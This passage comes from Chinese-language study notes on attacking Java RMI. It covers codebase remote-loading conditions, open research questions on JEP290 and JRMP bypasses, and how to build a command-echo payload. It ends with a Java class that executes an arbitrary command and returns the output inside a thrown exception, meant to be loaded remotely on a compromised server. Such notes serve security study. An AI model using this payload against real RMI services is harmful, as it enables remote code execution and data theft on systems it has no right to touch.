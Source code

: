 1. 由于Java SecurityManager的限制，默认是不允许远程加载的，如果需要进行远程加载类，需要安装RMISecurityManager并且配置java.security.policy。
2. 属性 java.rmi.server.useCodebaseOnly 的值必需为false。但是从**JDK 6u45、7u21**开始，java.rmi.server.useCodebaseOnly 的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前虚拟机的java.rmi.server.codebase 指定路径加载类文件。使用这个属性来防止虚拟机从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

**这些条件较为苛刻，真实场景中几乎不会出现**

#### 对于server的攻击（利用codebase）

#### 对于client的攻击（利用codebase）

### 利用JNDI注入攻击Client

* **见JNDI注入部分**

## 补充（TODO）

* 关于为了通过bind等方法的参数检查而采取的动态代理包装的问题：动态代理包装是否可以自定义（被攻击者没有该类），它为什么可以过JEP290
* JRMPClient发起DGC请求的过程分析
* jdk8u231后DGC客户端的限制
* jdk8u231后的利用链分析
* 为什么jdk8u231后的lookup要进行修改，增加`Reflections.setFieldValue(var3,"enableReplace",false);`
* jdk241后无法通过JRMP协议进行反连，是否能找到链子通过RMI client反连

### JRMPClient在shiro反序列化中的使用

见shiro550分析

## 回显马的编写

基本思路：

* RMI的任何一方被攻击时，都会返回异常对象
* 需要通过任意代码执行（注意与任意命令执行区别），抛出我们定义的异常对象
  * 代码执行远程加载一个jar包，执行任意代码抛出异常（出网）
  * 通过CC3等动态加载字节码的链，执行任意代码抛出异常：未成功，因为类的静态代码块不允许抛出异常，暂未找到解决办法

### 远程加载jar包

```java
// 远程加载的代码，很好理解，将命令执行的结果交给异常对象抛出
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class ErrorBaseExec {

    public static void do_exec(String args) throws Exception
    {
        Process proc = Runtime.getRuntime().exec(args);
        BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        StringBuilder sb = new StringBuilder();
        String line;
        while ((line = br.readLine()) != null)
        {
            sb.append(line).append("\n");
        }
        String result = sb.toString();
        throw new Exception(result);
    }
}
```
